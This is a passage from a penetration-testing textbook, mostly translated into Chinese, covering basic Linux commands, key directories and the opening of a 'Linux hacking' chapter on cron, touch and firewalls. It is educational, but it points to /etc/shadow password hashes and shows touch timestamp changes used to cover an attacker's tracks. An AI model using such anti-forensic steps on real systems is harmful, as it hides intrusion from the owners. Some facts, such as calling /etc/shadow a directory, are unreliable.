top 命令与 ps 命令非常相似，只是它按进程使用的 CPU 时间多少的顺序列出进程。这对管理员来说非常有用，特别是当你发现 CPU 利用率很高并希望找出原因时。我个人也认为其显示比 ps 显示信息丰富得多。我使用 top 命令的频率远高于 ps 命令。你可以在图 9-8 中看到 top 命令。


图 9-8 使用 top 命令查看进程的 CPU 时间。

请记住，由于此命令按 CPU 利用率列出进程，如果在不同时间运行命令，完全可能得到不同的结果。此命令有多个选项可以改变其显示方式。事实上，它会自行更新，因此如果你观察它，你可能会看到项目发生变化。


-   **-b:** 批处理模式操作。以‘批处理模式’启动 **top**。人们经常使用它将输出发送到其他程序或平面文件。
-   **-c:** 命令行/程序名切换。以最后记住的‘c’状态取反启动 **top**。
-   **-d:** 延迟时间间隔，格式为 **-d ss.tt** (*秒.十分之一*)。指定屏幕更新之间的延迟。
-   **-h:** 帮助。显示库版本和使用提示，然后退出。
-   **-H:** 线程切换。以最后记住的‘H’状态取反启动 **top**。当此切换为 *开启* 时，会显示所有单个线程。否则，**top** 会显示进程中所有线程的汇总。
-   **-i:** 空闲进程切换。以最后记住的‘i’状态取反启动 **top**。当此切换为 *关闭* 时，处于空闲状态的任务将不会显示。
-   **-n:** 限制迭代次数，格式为 **-n number**。指定 **top** 在终止前应产生的最大迭代次数。
-   **-u:** 按用户监控，格式为 **-u username**。仅监控有效 UID 或用户名与给定值匹配的进程。
-   **-U:** 按用户监控，格式为 **-U someuserid**。仅监控 UID 或用户名与给定值匹配的进程。
-   **-p:** 仅监控具有指定进程 ID 的进程。此选项最多可使用 20 次，或可提供最多 20 个 PID 的逗号分隔列表。两种方法混用是允许的。这仅是命令行选项。如果希望恢复正常操作，无需退出并重新启动 **top**——只需发出‘=’交互命令即可。
-   **-s:** 安全模式操作。即使是 root 也强制以安全模式启动 **top**。
-   **-S:** 以最后记住的‘S’状态取反启动 **top**。当‘累计模式’为 *开启* 时，每个进程都会列出其自身及其子进程所使用的 CPU 时间。
-   **-v:** 显示库版本和使用提示，然后退出。

## kill 命令

**kill** 命令非常简单。它会通过 ID 终止正在运行的进程。它只是使该应用程序或守护进程从内存中卸载。此命令依赖于进程 ID，因此您需要找到进程的 PID，可以使用 **ps** 之类的命令来完成。图 9-9 演示了 **kill** 命令。


图 9-9 使用 kill 命令终止正在运行的进程。

显然，您可以使用 ps 或 ps -e，或类似命令来查找进程 ID。请注意，因为与 Windows 不同，Linux 不会警告您。它会直接终止进程。对于此演示，我只是启动了一个计算器，然后使用其进程 ID 将其终止。

## 基本文件和目录命令

基本目录和文件命令对您会很有用。这里涵盖了最基本的内容。要创建目录，请使用 mkdir 命令后跟目录名，例如

```
mkdir testdir
```

要删除文件，请使用 rm 命令，如下所示：

```
rm txt
```

要移动文件，请使用 mv 命令并指定文件名和目标位置，如下所示：

```
mv testfile.txt testdir
```

要删除目录，首先必须为空，然后使用 rmdir：

```
rmdir testdir
```

图 9-10 显示了这些命令以及 ls，以显示文件和目录的更改。


图 9-10 基本文件命令。

## chown 命令

**chown** 命令根据其第一个非选项参数更改每个给定文件的所有者和/或组所有权，按如下方式解释。如果只给出用户名，则该用户成为文件的所有者。如果用户名后面跟着冒号或点以及组名且中间没有空格，则文件组所有权也会更改。此命令有多个选项，其中最常用的列于此处：

-   **-c, --changes:** 此选项的工作方式类似于 verbose，但仅在发生更改时报告。
-   **--dereference:** 这会使 chown 应用于每个符号链接的引用对象，而不是符号链接本身。
-   **--from=CURRENT_OWNER:CURRENT_GROUP:** 此选项将仅在文件当前所有者和/或组与此处指定的匹配时，才更改每个文件的拥有者和/或组。
-   **-f, --silent, --quiet:** 这些选项会使 chown 抑制大多数错误消息。
-   **-R, --recursive:** 此选项使 chown 递归地对文件和目录进行操作。
-   **-v, --verbose:** 此选项会产生更详细的输出。
-   **--help:** 这将显示 **chown** 的帮助并退出。
-   **--version:** 这将显示版本信息并退出。

图 9-11 显示了 **chown** 的一个非常简单的示例。在此图中，我们将文件 *atestfile.txt* 的所有者更改为用户 *bob*。


图 9-11 使用 **chown** 命令更改文件所有权。

## chmod 命令

**chmod** 命令用于更改文件权限。选项很简单：

-   **4** 表示“读”。
-   **2** 表示“写”。
-   **1** 表示“执行”。
-   **0** 表示“无权限”。
-   **7** 结合了 **4**、**2** 和 **1**，授予所有权限。

语法是

```
chmod options permissions filename
```

有三种权限。第一种是用户，第二种是用户所在的组，第三种是所有人。因此，在图 9-12 中，我为用户、组授予完全权限，并为文件 atestfile.txt 的其他所有人仅授予读权限。


图 9-12 使用 chmod 命令分配文件权限。

## bg 命令

bg 命令将作业发送到后台。然后它在没有用户交互的情况下运行。

## fg 命令

fg 命令将作业发送到前台，以便您可以与其交互。进程将使用您当前的终端。如果省略要与 fg 命令一起使用的作业，它将简单地将最后放到后台的作业带到前台。

## useradd 命令

useradd 命令相当直接：它向系统添加特定用户。此命令有多个选项：

-   **-c:** 注释。这会在用户文件中添加注释。管理员经常使用它来输入用户的全名或账户名。
-   **-d:** home_dir。使用此选项，新用户将使用 home_dir 作为用户登录目录的值创建。
-   **-e:** expire_date。此选项将用户账户设置为在提供的特定日期过期。这对于合同员工和其他可能需要临时访问您系统的用户特别有用。日期格式为 YYYY-MM-DD。
-   **-f:** inactive_days。此选项设置密码过期后到账户永久禁用之间的天数。换句话说，如果用户让密码过期，在一定天数后账户本身将被禁用。值为 **0** 会在密码过期后立即禁用账户。
-   **-g:** initial_group。此选项将组名或编号分配为用户的初始登录组。这必须是已存在的组；在添加用户时无法创建组。
-   **-G:** 组。用户也是其成员的组列表。每个组之间用逗号分隔，且中间没有空格。
-   **-m:** 此选项会在不存在时创建用户的主目录。
-   **-M:** 此选项会阻止创建用户的主目录，即使 /etc/login.defs 的系统范围设置是创建主目录。
-   **-o:** 此选项允许您使用重复的（非唯一）UID 创建用户。这是个人不使用的选项之一。
-   **-p:** Passwd。此选项将创建加密密码，如 **crypt(3)** 所返回。
-   **-r:** 此标志用于创建系统账户——即 UID 低于 /etc/login.defs 中定义的 UID_MIN 值且密码不过期的用户。
-   **-s:** Shell。此选项让您设置该用户的登录 shell 名称。默认是留空，在这种情况下用户将获得该系统的默认 shell。
-   **-u:** user ID。此选项设置用户 ID 的数值。而且，除非使用 **-o** 选项，否则此值必须是唯一的。

在图 9-13 中，我使用 **useradd** 命令添加名为 jsmith 的用户。


图 9-13 使用 useradd 添加用户。

我使用 -e 为 jsmith 设置了过期日期。

## userdel 命令

userdel 命令非常简单。它会从系统中删除指定的用户账户。此命令的唯一选项是 -r 选项，该选项会导致用户的 home 目录连同 home 目录本身和用户的邮件 spool 一起被删除。

图 9-14 演示了此命令。


图 9-14 使用 userdel 删除用户账户。

如你所见，我尝试删除 Bob 的邮件 spool 和 home 目录，但他两者都没有。

## usermod 命令

usermod 命令可能比 useradd 更常用。该命令允许你修改现有用户账户。你可以更改过期日期、home 目录或其他账户属性。更改现有用户账户的某些方面是常见做法。选项与 useradd 基本相同，只是存在一些差异：

- **-c：** Comment。 这会在用户文件中添加注释。管理员通常会用它来填写用户的全名或账户名称。
- **-d：** home_dir。 使用此选项，将使用 home_dir 作为用户登录目录的值创建新用户。
- **-e：** expire_date。 此选项将用户账户设置为在提供的特定日期过期。这对于合同员工和其他可能需要临时访问系统的人员特别有用。日期格式为 YYYY-MM-DD。
- **-f：** inactive_days。 此选项设置密码过期后到账户永久禁用之间的天数。换句话说，如果用户让密码过期，经过一定天数后账户本身将被禁用。值为 **0** 会在密码过期后立即禁用账户。
- **-g：** initial_group。 此选项将组名或编号分配为用户的初始登录组。这必须是已存在的组；在添加用户时无法创建组。
- **-G：** Group。 用户也是其成员的组列表。每个组之间用逗号分隔，且中间没有空格。
- **-l：** login_name。 这会更改用户的登录名。
- **-p：** Password。 这会设置用户的加密密码，如 **crypt(3)** 所返回。
- **-s：** Shell。 使用此选项可以设置用户的默认 shell。将此字段设置为空会导致系统选择默认登录 shell。
- **-u：** user ID： 此选项用于设置用户 ID。
- **-L：** 此选项用于锁定用户的密码。你不能将此选项与 **-p** 或 **-U** 一起使用。
- **-U：** 这用于解锁用户的密码。你不能将此选项与 **-p** 或 **-L** 一起使用。

在图 9-15 中，我使用 **usermod** 命令更改用户 jsmith 的 home 目录。


图 9-15 使用 **usermod** 修改用户账户。

## users 命令

**users** 命令是一个非常简单的命令，仅显示当前登录的用户。它只有两个选项：

- **--help：** 显示帮助并退出。
- **--version：** 显示版本信息并退出。

图 9-16 显示了此命令。


图 9-16 使用 **users** 命令显示已登录用户。

## who 命令

此命令将显示当前登录的用户。该命令有多个选项，其中最常用的如下：

- **-a, --all：** 这结合了选项 **-b -d --login -p -r -t -T -u**。
- **-b, --boot：** 此选项还会显示上次系统启动的时间。
- **-d, --dead：** 使用此选项你还会看到死进程。
- **-H, --heading：** 这将显示列标题。
- **-l, --login：** 使用此选项，还会显示登录进程。
- **-p, --process：** 这将显示由 init 启动的活动进程。
- **-q, --count：** 此选项显示所有登录名和已登录用户数。
- **-r, --runlevel：** 此选项显示当前运行级别。
- **-s, --short：** 此选项仅显示名称、行和时间（默认）。
- **-t, --time：** 此选项显示上次系统时钟更改。
- **-T, -w, --mesg：** 此选项会将用户的消息状态添加为 +、- 或 ?。
- **-u, --users：** 此选项将列出已登录用户。
- **--message：** 这与 **-T** 相同。
- **--writable：** 这也与 **-T** 相同。
- **--help：** 这将显示帮助。
- **--version：** 这将显示版本信息并退出。

图 9-17 显示了此命令。


图 9-17 使用 **who** 显示已登录用户。

## 目录

现在我们已经讨论了文件系统，让我们来看看对管理员很重要的特定目录。在任何操作系统中，都有对该操作系统功能很重要的关键目录。Linux 也不例外。每个 Linux 安装都将具有以下各节中提到的目录，其中总结了它们的功能和用途。

### /root

/root 目录是 root 用户的 home 目录。作为管理员，这对你来说是一个相当重要的目录。你的文件将存储在这里。通常其他用户无法访问它。它基本上只是一个标准的用户 home 目录，只是专门用于 root 用户。

### /bin

/bin 目录存放二进制或编译文件。因此，你会在此目录中找到许多程序。甚至许多 shell 命令也存储在此目录中，例如 **ls** 和 **cat**。请记住，shell 命令毕竟只是你从 shell 调用的程序。我们将在本书中查看各种 shell 命令。你应该记住一些二进制文件位于其他目录中。

### /sbin

此目录与 /bin 类似，但它包含不打算供普通计算机用户使用的二进制文件。例如，**mke2fs** 命令位于此目录中。**mke2fs** 程序是一个文件系统实用程序。因为这些是专为 root 用户或超级用户设计的专用二进制文件，所以此目录通常不在普通用户的默认路径中。然而，此目录会位于 root 用户的默认路径中，这意味着大多数登录的用户无法访问 /sbin 或其中存储的任何命令。

### /etc

/etc 文件夹包含配置文件。大多数应用程序在启动时需要一些配置。即使是 LILO 和 Grub 等引导加载程序也有配置文件。那些配置文件位于 /etc 中。此目录有几个子目录，每个子目录包含不同类型的配置文件。本节列出了其中几个更重要的子目录。

### /etc/passwd

这本质上是用户及其权限信息的基于文本的数据库。这对渗透测试人员显然很有兴趣。每个用户的条目将有多个字段：

- **Username field：** 此字段表示用户（或用户账户）名称。
- **Password field：** 第二个字段是密码字段，不过不包含实际密码。此字段中的 ‘x’ 表示密码已哈希并保存在 /etc/shadow 文件中。
- **UID field：** 每当创建新用户账户时，就会分配一个用户 ID，即 UID。
- **GID field：** 类似于 UID 字段，指定用户所属的组，组详细信息位于 /etc/group 文件中。
- **Comment/Description/User Info field：** 如名称所示，是该用户的文本描述。
- **User Home Directory field：** 这是用户作为 home 目录的目录。
- **Shell field：** 用户的 shell，通常为 /bin/bash 或 bash shell。

### /etc/shadow

此目录可能是渗透测试人员最感兴趣的地方。虽然许多资源将密码称为加密，但它更可能是哈希。此处将包含该哈希。此目录中的其他信息包括用户名（与密码对应）、密码上次更改日期、密码更改所需的天数以及相关信息。

### /etc/group

就像 /etc/passwd 保存用户信息一样，/etc/group 保存组信息。因此所有关于所有组的数据都保存在这里。它也不是子目录，而是一个文件。

### /etc/inittab

这里是更改 init 配置文件的地方，init 是一个非常重要的配置应用程序。inittab 文件描述了在启动时和正常操作期间启动哪些进程。/etc/init 程序在内核初始化的最后阶段启动，PID 为 1。init 进程启动所有其他进程。inittab 文件是 init 程序的配置文件。此文件可以用任何标准文本编辑器编辑。

inittab 文件有多个条目。每个条目由四个字段定义，以冒号分隔。这些字段包括以下内容：

- **label：** 最多四个字符的唯一标识标签
- **run_level：** 执行该条目的 init 级别
- **action：** 表示 init 对进程采取的操作的关键字
- **process：** init 在进入指定运行级别时执行的进程

当系统首次启动时，会扫描 inittab 文件中的关键字。这些关键字告诉 init 如何处理 inittab 中的给定配置命令：

- **boot：** 启动进程并继续下一个条目，而不等待进程完成。当进程终止时，init 不会重新启动该进程。
- **bootwait：** 启动进程一次并等待其终止，然后再继续下一个 inittab 条目。


-   **initdefault:** 确定初始进入哪个运行级别，使用 run_level 字段中的最高数字。如果 inittab 中没有 initdefault 条目，则 init 在启动时向用户请求初始运行级别。
-   **sysinit:** 在 init 第一次读取表格时启动该进程，并在其终止之前等待，然后再继续处理 inittab 中的下一项。

下面是一个非常简单的 inittab 文件示例：

```
### inittab for linux
id:1:initdefault:
rc::bootwait:/etc/rc
1:1:respawn:/etc/getty 9600 tty1
2:1:respawn:/etc/getty 9600 tty2
3:1:respawn:/etc/getty 9600 tty3
```

## /etc/motd

motd 是 message of the day（每日消息）的缩写。这个目录包含的就是这个内容。你可能注意到登录后会收到一条简短的消息，这就是每日消息，位于此目录中。该消息通常被系统管理员用来向终端用户发送信息。这是一个放置公告或安全提醒的绝佳位置。这也是你在渗透测试中留下信息的一个很酷的地方：例如，“我看你的安全需要帮助，因为我已经在你的服务器上了。”

## /dev

此目录包含设备文件。设备文件实际上是设备的接口。存储设备、声音设备——事实上，你所有的设备——都应该在此目录中有一个设备文件。一些命名约定可以帮助你浏览此目录。例如，所有硬盘都以 hd 开头，软盘驱动器以 fd 开头，CD 驱动器以 cd 开头。因此，主硬盘可能命名为 /dev/hd0。软盘驱动器将称为 /dev/fd0。

此目录包含许多文件，每个文件代表一个设备。显然，你的系统可能没有全部这些，但这里列出了可能出现在 Linux 系统上的那些。最重要的列在这里：

-   **/dev/dsp 数字信号处理器：** 声音软件与声卡之间的接口。
-   **/dev/fd0：** 第一个软盘驱动器。
-   **/dev/fb0：** 第一个帧缓冲设备。帧缓冲是软件与图形硬件之间的抽象层。
-   **/dev/hda：** 主 IDE 控制器上的主 IDE 驱动器。

-   **/dev/hdb：** 主控制器上的从驱动器。
-   **/dev/hdc：** 次 IDE 控制器上的主 IDE 驱动器。
-   **/dev/hdd：** 次 IDE 控制器上的从驱动器。
-   **/dev/pda：** 并行端口 IDE 磁盘。

## /boot

此启动目录包含启动所必需的关键文件。你的引导加载程序（无论是 LILO 还是 GRUB）都会在此目录中查找。将内核映像保存在此目录中是一种常见做法。

## /usr

顾名思义，此目录包含系统上所有用户的全部子目录，从而包含所有文件。在拥有许多用户的 Linux 机器上，这很快就会成为计算机上最大的目录。此目录还包含文档，例如手册页。Linux 内置了所有各种 shell 命令、目录等的手册。它们被称为手册页（即 manual pages），我在本书中会多次提到它们。

此目录有许多重要的子目录，列在这里：

-   **/usr/X11R6：** 此目录包含 X Window 系统。
-   **/usr/bin：** 此目录保存了大多数用户命令。然而，一些命令位于 /bin 或 /usr/local/bin 中。
-   **/usr/sbin：** 此目录存储不需要在根文件系统上的系统管理命令，/usr/share/man，经常被引用以查找 Linux 命令的手册页。
-   **/usr/share/info：** 此目录保存 GNU 信息文档。
-   **/usr/share/doc：** 此目录包含大量通用文档。
-   **/usr/include：** 此目录具有 C 编程语言中使用的头文件。创建 Unix 的同一批人也创建了 C 编程语言。而 C 与 Unix 以及大多数类 Unix 系统，包括 Linux，紧密交织在一起。
-   **/usr/lib：** Lib 是 *library* 的缩写。此目录包含程序和子系统的文件，包括一些配置文件。
-   **/usr/local：** 此目录保存本地安装的软件和其他文件。发行版可能不会在此安装任何内容。

## /var

/var 目录包含系统正常运行时更改的数据。名称 var 源自 variable，即内容会变化。

列出了其中几个更重要的子目录：

-   **/var/cache/man：** 这是按需格式化的手册页的缓存。
-   **/var/games：** 属于 /usr 中游戏的任何可变数据应放在此处。
-   **/var/lib：** 这是存储系统正常运行时更改的各种文件的存放位置。
-   **/var/local：** 此目录保存安装在 /usr/local 中的程序的可变数据。
-   **/var/lock：** 这是运行在 Linux 上的程序内部操作的一个特别重要的目录。此目录存储锁文件。许多程序会在 /var/lock 中创建一个锁文件以表明它们正在使用某个特定设备或文件。这允许其他程序看到该设备正在使用中而不尝试使用它。
-   **/var/log：** 这是另一个非常重要的目录，其中包含各种程序的日志文件。我们将在本书中多次返回到此目录。
-   **/var/mail：** 如果你的服务器是邮件服务器，此目录包含邮箱文件。
-   **/var/run：** 此目录有点不同。它包含有关系统的当前信息，但这些信息仅在下次启动系统之前有效。例如，它包含当前登录用户的信息。
-   **/var/spool：** 此目录包含打印队列，因此在排查打印机问题时可能非常重要。

## /proc

/proc 目录与其他目录不同，因为它实际上并未存储在硬盘上。它是在内存中创建的，并保存有关当前正在运行进程的信息。

这里列出了一些示例：

-   **/proc/1：** 这是有关当前正在运行的进程 1 的信息。还会有 /proc/2、/proc/3 等。
-   **/proc/cpuinfo：** 在这里你可以找到有关 CPU 的信息，例如其类型、制造商、型号和性能。
-   **/proc/dma：** 这包含有关当前使用的 DMA（直接内存访问）通道的信息。

-   **/proc/interrupts：** 这包含有关哪些中断正在使用的数据。
-   **/proc/ioports：** 这包含有关当前正在使用的 I/O 端口的信息。
-   **/proc/kcore：** 在此目录中，你会找到系统的物理内存映像。这使你能够在任何给定时间点看到物理内存中正在发生的情况。
-   **/proc/meminfo：** 此目录具有有关当前内存使用情况的信息，包括物理内存和 SWAP 文件。
-   **/proc/kmsg：** 在这里你可以找到内核输出的消息。
-   **/proc/modules：** 这包含当前加载的内核模块列表。
-   **/proc/stat：** 这包含有关系统的许多有趣统计数据，例如自上次启动以来发生了多少次页面错误。
-   **/proc/uptime：** 系统已运行的时间。
-   **/proc/version：** 内核版本。

## Graphical User Interface

如本章前面所述，GUI 与实际操作系统是分开的。而对于 Linux，这实际上意味着你可以选择使用的 GUI。许多人将你使用的特定 GUI 称为你的桌面。事实上，一些 Linux 发行版安装会要求你选择想要的桌面，即想要的 GUI。在 Linux 世界中，shell 为王，但你至少应该了解两种最广泛使用的 GUI。

## GNOME

毫无疑问，Gnome（https://www.gnome.org/）是 Linux 两种最受欢迎的 GUI 之一。大多数 Linux 发行版包含 GNOME，或在 GNOME 和其他桌面环境之间进行选择。事实上，流行的 Ubuntu 发行版仅随附 GNOME。GNOME 基于 GTK+ 构建，后者是创建 GUI 的跨平台工具包。名称“GNOME”是 GNU Network Object Model Environment 的缩写。

## KDE

与 GNOME 一起，KDE（https://www.kde.org/）是两种最受欢迎的 Linux GUI 之一。大多数 Linux 发行版会随附 KDE 或 GNOME，或两者兼有。例如，Kubuntu 发行版本质上是带有 KDE 的 Ubuntu。KDE 由 Matthias Ettrich 于 1996 年创立。在 KDE 创建时，Ettrich 就像 Linus Torvalds 一样，是计算机科学专业的学生。KDE 的名称旨在对现有的 Common Desktop Environment（CDE）进行文字游戏，可用于

Unix 系统。现在 K 不代表任何含义，缩写为 K Desktop Environment。KDE 基于 Qt 框架构建，Qt 是一个用 C++ 编写的跨平台 GUI 框架。

KDE 包含许多有用的应用程序。以下是其中一些：

- **Kooka：** 用于将文档扫描为可编辑形式的光学字符识别应用程序
- **KWord：** 功能齐全的文字处理器
- **KSpread：** 电子表格应用程序
- **Kexi：** 数据库创建器
- **Dolphin：** 文件管理器
- **Krfb：** 桌面共享程序
- **Konqueror：** 网页浏览器

这些只是 KDE 环境的一部分应用程序。

您需要注意，KDE 已开始将桌面环境称为“The Plasma Desktop。”事实上，他们的网站上有此部分 https://www.kde.org/plasma-desktop。然而，您仍然会发现许多 Linux 用户简单地将其称为 KDE。

## 摘要

现在您应该对 Linux 是什么、Linux 的历史以及如何使用 shell 命令有良好的理解。本章构成了渗透测试人员应具备的关于 Linux 的最基本知识。在继续阅读本书之前，请确保您已彻底掌握本章的内容。您应该对本章讨论的基本 Linux shell 命令相当熟悉。

## 测试你的技能

### 多项选择题

1. 向上移动一级的命令是 _____ 。

- A. **cd**
- B. **cd ~**
- C. **cd ..**
- D. **cd ^**

2. 这条命令会做什么？

```
pstree > test.txt
```

- A. 删除文件 test.txt。
- B. 将 pstree 的输出发送到文件 test.txt。
- C. 什么都不做；它写错了。
- D. 将进程发送到一系列文件 test(0).txt、test(1).txt 等。

3. 您希望运行 ps 命令，但想查看所有用户的进程。应该使用什么？

- A. **ps -e**
- B. **ps**
- C. **ps -all**
- D. **ps -x**

4. 删除文件 test.txt 的命令是什么？

- A. **del test.txt**
- B. **x test.txt**
- C. **test.tx del**
- D. **rm test.txt**

5. 命令 chmod 440 somefile.txt 将分配什么权限？

- A. 用户和组拥有所有权限，其他人没有任何权限
- B. 用户和组拥有执行权限，其他人没有任何权限
- C. 用户和组拥有读权限，其他人没有任何权限
- D. 用户和组拥有执行权限，其他人只读

## 项目

### 项目 1：基础 Linux

本项目让您练习本章介绍的命令。如果您是 Linux 新手，完成此实验后，请随意尝试 Linux shell 命令。

- 1. 打开 shell。
- 2. 首先输入 cd ..
- 3. 输入 ls。
- 4. 执行 dmesg > dmsg.txt 并在您喜欢的文本编辑器中打开 dmsg.txt。
- 5. 输入 mkdir testfolder。
- 6. 输入 ls。
- 7. 输入 cp dmsg.txt testfolder。
- 8. 输入 cd testfolder。
- 9. 输入 ls。
- 10. 输入 cd ..。
- 11. 输入 ps。
- 12. 输入 pstree。
- 13. 输入 top。

### 项目 2：更多 Linux

按照本章的说明，完成以下任务：

- 1. 创建一个文件。
- 2. 创建一个用户。
- 3. 使该用户成为该文件的所有者。
- 4. 更改文件权限。
- 5. 然后删除该用户。

# 第 10 章

### Linux 入侵

### 章节目标

阅读本章并完成练习后，您将能够做到以下几点：

- 理解 Linux 的安全特性
- 提取 Linux 密码
- 理解基本的 Linux 入侵技术

Linux 操作系统是一个相当安全的系统。然而，它并不完美安全；没有任何系统是完美的。如果您的网络中有 Linux 计算机，那么它们也必须经过测试。因此，任何好的渗透测试都必须包括对 Linux 的测试。在本章中，我们将更详细地研究 Linux 和 Linux 安全。然后我们将研究 Linux 的具体入侵技术。

### 更多关于 Linux 操作系统

第 9 章，“Introduction to Linux，”为您提供了 Linux 操作系统的实用概述。在继续本章之前，确保您非常熟悉该章的所有内容。我们将从有关 Linux 操作系统的更多细节开始，包括获取信息的地方。

### sysfs

sysfs 是 Linux 2.6 提供的虚拟文件系统，用于收集系统信息。sysfs 将内核设备模型中的设备和驱动程序信息导出到用户空间。文件系统目录层次结构的组织基于内核数据结构的内部组织。文件系统中创建的文件通常是 ASCII 文件，每个文件有一个值。

对于添加到驱动模型树中的每个对象，都会在 sysfs 中创建一个目录。父/子关系通过 /sys/devices/ 下的子目录反映出来。/sys/bus/ 子目录填充了符号链接，反映了设备属于不同总线的方式。/sys/class/ 子目录显示按类别分组的设备。而 /sys/block/ 包含块设备。

符号链接是一种特殊类型的文件，实际上是指向另一个文件的指针。您可以将其视为 Microsoft Windows 中快捷方式的等价物。这些有时也称为软链接。

对于设备驱动程序和设备，可以创建属性。这些是简单的文件；规则是它们应仅包含一个值和/或允许设置一个值。这些文件出现在与设备相对应的设备驱动程序的子目录中。使用属性组，也可以创建一个填充了属性的子目录。

该服务在其生命周期中经历了多次名称更改。sysfs 最初称为 ddfs（Device Driver Filesystem），最初创建时用于在编写驱动模型时调试它。以前，调试是通过使用 procfs 导出设备树来执行的；然而，这被转换为使用基于 ramfs 的新文件系统。到新驱动模型合并到内核约 2.5.1 时，它已更名为 driversfs 以更具描述性。如果您打开任何文件管理器并查看 /sys 目录，您将看到固件、设备等子目录。这在图 10-1 中显示。


图 10-1 /sys 目录。

您可以通过打开子目录深入到具体内容，如图 10-2 所示。


图 10-2 在 /sys 目录中向下钻取。

### Crond

Crond 是一个守护进程（因此名称末尾有 d），负责确保计划任务按计划运行。这对于网络管理员来说是一项关键的系统服务。手动每次需要时运行每个任务效率低下。而且在除最小网络之外的任何网络上，这都是不可能的。因此，您必须有一些机制来安排任务运行。Crond 就是该机制。

crond 守护进程使用 crontab 文件来安排任务。Crond 在 /var/spool/cron 中搜索 crontab 文件。基本上，crond 会定期检查所有 crontab 文件，查看是否有需要运行的命令，如果有则执行它们。每个用户都有自己的 crontab，任何给定 crontab 中的命令都将作为拥有该 crontab 的用户执行。这一点很重要。除非绝对必要，否则不应以 root 身份运行任务。对于渗透测试人员，您可能希望查看正在运行的 cron 作业，并且可能需要关闭其中一些，或者至少验证入侵者是否可以关闭它们。

crontab 文件包含对 crond 守护进程的指令，一般形式为：“在该日期的该时间运行此命令”。在 crontab 中，空行和前导空格和制表符将被忽略。以井号（#）开头的行是注释，将被忽略。请注意，注释不允许与 cron 命令在同一行上。常见做法是将注释放在命令之前。同样，注释也不允许与环境变量设置在同一行上。

crontab 中的活动行将是环境设置或 cron 命令。环境设置的格式为：

```
name = value
```


Several environment variables are set up automatically by the crond daemon. For example, SHELL is set to /bin/sh, and LOGNAME and HOME are set from the /etc/passwd line of the crontab's owner. HOME and SHELL may be overridden by settings in the crontab; LOGNAME may not. Figure 10-3 shows a basic default crontab.

```
SHELL=/bin/sh
PATH=/usr/bin:/usr/sbin:/sbin:/bin:/usr/lib/news/bin
MAILTO=root
#
### check scripts in cron.hourly, cron.daily, cron.weekly, and cron.monthly
#
*/15 * * * * root test -x /usr/lib/cron/run-crons && /usr/lib/cron/run-crons >/dev/null 2>&1
```

图 10-3 基本的 crontab。

The format of a cron command is basically what you see here:

```
* * * * * /bin/execute/this/script.sh
```

The five stars represent the date/time portions of the command. Note, these must be in order:

- 1. minute (from 0 to 59)
- 2. hour (from 0 to 23)
- 3. day of month (from 1 to 31)
- 4. month (from 1 to 12)
- 5. day of week (from 0 to 6, where 0=Sunday)

So if you want to schedule the script to run at 3 a.m. every Thursday, you would need the following cronjob:

```
0 3 * * 4 /bin/execute/this/script.sh
```

Here are some other example crontab entries.

Remove all files from the temp directory at 2:30 a.m. every night:

```
30 2 * * * rm /home/{username}/temp/*
```

This command sends a “popup” message to the user’s screen, at 3:00 p.m. Fridays, if they are logged in:

```
0 15 * * 5 echo "Time for staff meeting" | write $LOGNAME >/dev/null 2>&1
```

I think you can see how crontab entries work. They are relatively simple. It is common practice to have various administrative functions, such as backups, scheduled via crontab. For a penetration tester, these can be very interesting. There may be cronjobs that you don’t wish to run. Or you can set up your own jobs (assuming you get this far into the Linux machine). You may wish to have a timed pop-up message letting the client know that you got into their Linux machine.

## Shell Commands

Chapter 9 introduced a number of Linux shell commands. In this chapter, we will look at shell commands that are of interest to both attackers and penetration testers. Of course, some of these commands will require root privileges, but if the attacker or tester can get root privileges, there are many interesting things he or she can do.

### touch

The **touch** command is used with files. If you type **touch filename** and no such file exits, then a file with that name will be created. But the really interesting part of **touch** comes with files that already exist.

**touch -a** says to change the access time of a file. **touch -m** changes the modification time. Or you can even set one file to have the same times as another file. So **touch -r fileA fileB** will tell fileB to use all the timestamps from fileA.

If you don’t provide specific times (for example to **-a** and **-m**), those will be changed to current time. Or you can change them to any time you wish:

```
touch -d '1 May 2018 10:00' fileA
```

In Figure 10-4 you can see the file properties for test.txt.


图 10-4 test.txt 的文件属性。

Now let’s use the touch command, as shown in Figure 10-5.


图 10-5 touch 命令。

Now let’s check those properties again, and in Figure 10-6 you can see them.


图 10-6 touch 命令后的文件属性。

It should be obvious that an attacker can use touch to cover his or her tracks rather effectively.

### nice

The nice command is very useful. It sets the priority of a given process. With priorities, the lower the number, the higher the priority. The minimum priority is 20 and the maximum priority is –20 and only a root user can assign negative priorities. However, any user can always lower the priorities of their own processes. This is shown in Figure 10-7.


图 10-7 使用 nice 命令设置进程优先级。

### locate

**locate** is a pretty effective search tool. To locate all files that have the word virus anywhere in the filename, you use the command

```
locate *virus*
```

Figure 10-8 demonstrates the **locate** tool in action.

As with all Linux commands, there are a few flags. Some of the more commonly used flags are listed here:

- **-c** gives a count of how many matches there are, rather than enumerating them all.
- **-L** follows trailing symbolic links.
- **-i** ignores case.
- **-l** limits how many results to return.

Clearly it is useful for a penetration tester to search for various files on a target machine. This is a command you will likely use frequently.


图 10-8 locate 命令。

## Linux Firewall

Linux has its own firewall. Actually, the firewall in Linux has evolved over time. In this section, we will first discuss what a firewall is (which should be review for most readers), then discuss the Linux firewall. In its simplest form, a firewall is any software or device configured so that it blocks traffic based on some criteria. For example, a firewall might only allow incoming traffic on a specific port, or with a certain protocol. And a firewall might block traffic that has certain characteristics, or comes from a particular IP address. Most modern operating systems include some firewall capabilities, as do most modern routers. In fact there are Linux distributions whose sole function is to act as a firewall for an entire network.

Essentially a firewall acts first as a gateway, facilitating access to the network. Then it often acts as a proxy server or network address translation (NAT) utility. This provides a demarcation point between the network and the outside world. There are of course many types of firewalls, and as this is not a book about firewalls, we won’t be exploring all of them. However, the two most common general classes of firewall are packet filtering and stateful packet inspection, which are described here:

- **Packet filtering:** With this type of firewall, each packet’s header is examined to see if it matches the rules set up for the firewall. Those rules are generally regarding what ports and protocols to allow to enter the network, as well as what IP addresses to block from entering. A packet filtering firewall is the simplest form of firewall.
- **Stateful packet inspection:** With this approach, the firewall examines not only the current packet header but in most cases the packet data as well. It also considers the packet in the context of the previous packets that have been sent from that same IP address. This is a more robust firewall than the packet filtering firewall.

There are other sorts of firewalls, but these are the two most common. Many firewalls that come with operating systems, such as Windows or Linux, are simple packet filtering firewalls. More advanced firewalls, such as the Linux distributions configured explicitly as a firewall, use stateful packet filtering.

### Iptables

